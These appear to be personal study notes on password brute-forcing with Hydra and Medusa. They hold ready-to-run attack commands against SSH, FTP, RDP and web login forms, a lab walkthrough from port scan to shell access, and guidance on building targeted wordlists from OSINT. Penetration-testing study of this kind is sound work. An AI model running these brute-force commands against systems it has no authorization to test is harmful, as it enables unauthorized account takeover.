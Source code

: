 # Hydra
- Crafting the correct params string is crucial for a successful Hydra attack. Accurate information about the form's structure and behavior is essential for constructing this string effectively. 

- Can brute force FTP, SSH, HTTP, SMTP, POP3, IMAP, MYSQL, MSSQL, VNC, RDP:
- HTTP: `hydra -L usernames.txt -P passwords.txt www.example.com http-get`
- Multiple SSH servers: `hydra -l root -p toor -M targets.txt ssh`
- FTP on non-standard port: `hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp`
- Web Login Form: `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
- RDP Brute-forcing: `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp`

```
POST /login HTTP/1.1
Host: www.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

username=john&password=secret123
```

- Look at the HTML of the login form for details


- The `POST` method indicates that data is being sent to the server to create or update a resource.
- `/login` is the URL endpoint handling the login request.
- The `Content-Type` header specifies how the data is encoded in the request body.
- The `Content-Length` header indicates the size of the data being sent.
- The request body contains the username and password, encoded as key-value pairs.
- Hydra's `http-post-form` service is specifically designed to target login forms: `hydra [options] target http-post-form "path:params:condition_string"`
- You can specify what success or failure is:
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:F=Invalid credentials"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
  - `hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=Dashboard"`

- Form Parameters: These are the essential fields that hold the username and password. Hydra will dynamically replace placeholders (^USER^ and ^PASS^) within these parameters with values from your wordlists.
- Additional Fields: If the form includes other hidden fields or tokens (e.g., CSRF tokens), they must also be included in the params string. These can have static values or dynamic placeholders if their values change with each request.
- Success Condition: This defines the criteria Hydra will use to identify a successful login. It can be an HTTP status code (like S=302 for a redirect) or the presence or absence of specific text in the server's response (e.g., F=Invalid credentials or S=Welcome).

- The form submits data to the root path (`/`).
  - The username field is named `username`.
  - The password field is named `password`.
 
Therefore, the `params` string would be:
- `/:username=^USER^&password=^PASS^:F=Invalid credentials`
  - `"/"`: The path where the form is submitted.
  -  `username=^USER^&password=^PASS^`: The form parameters with placeholders for Hydra.
  -  `F=Invalid credentials`: The failure condition – Hydra will consider a login attempt unsuccessful if it sees this string in the response.
 
Resulting in - `hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"`

# [Medusa]([url](https://docs.medusajs.com/learn/fundamentals/modules))
- `man medusa`
- Modules (-M) are case sensitive, both the flag (M) and the modules you call. `HTTP` will fail but `http` wont etc.
- Whether the flag is capitlized or not will mean different things

- `medusa [target_options] [credential_options] -M module [module_options]`
- Useful for FTP, HTTP, IMAP, MYSQL, POP3, RDP, SSHV2, SUBVERSION(SVN), TELNET, VNX, Web Form.
- SSH Server: `medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh`
- Multiple HTTP Auth: `medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET `
- test for empty or default passwords (where user = password: `medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name`

- Reminder SSH Login: `ssh sshuser@<IP> -p PORT`

- Find SSH access --> run `nmap localhost` --> run new medusa command on FTP port found: `medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5` --> Found ftpuser password then run `ftp <IP>` --> enter user --> enter password -->> find file --> `get filename1` --> now in SSH shell

- Make a custom wordlist with `Username Anarchy`
  - `/username-anarchy Jane Smith > jane_smith_usernames.txt`
  - txt file created will have a bunch of username variations based off `Jane Smith`
 
- Make custom password lists with `CUPP`:
  - CUPP will take your inputs and create a comprehensive list of potential passwords
  - OSINT will be a goldmine of information for CUPP
  - Spawn CUPP with `cupp -i` and follow the prompts
 
Basic http:

